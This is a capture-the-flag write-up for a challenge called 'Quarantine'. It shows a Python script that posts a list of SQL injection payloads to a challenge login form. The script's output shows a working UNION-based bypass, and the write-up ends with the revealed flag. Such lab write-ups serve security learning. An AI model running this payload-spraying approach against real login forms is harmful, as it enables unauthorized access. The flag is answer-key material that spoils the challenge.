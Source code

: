 # Quarantine

After testing on the website I found that entering `'` in the password field gave a 500 error.

Yesss - SQL Injection!

I then copied a load of sql injection payloads from [here](https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b) into a text file

## Writing a python script to test all the payloads

```python
import requests
import re

url = "http://95.216.233.106:15009/sign-in"
Headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://95.216.233.106:15009/sign-in", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
Payloads = open('injection.txt','r')

for payload in Payloads:
    payload = payload.strip()
    Data = {"user": "admin", "pass": payload}
    success = requests.post(url, headers=Headers, data=Data)
    error1 = re.findall('Invalid username / password', success.text)
    error2 = re.findall('Attempting to login as more than one user!??', success.text)
    if len(error1) == 0 and len(error2) == 0:
        if success.status_code == 200:
            print(payload)
```

```
$ python3 exploit.py 
-1' UNION SELECT 1,2,3--+
```
Enter the payload into the password field and you get the flag.

**ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}**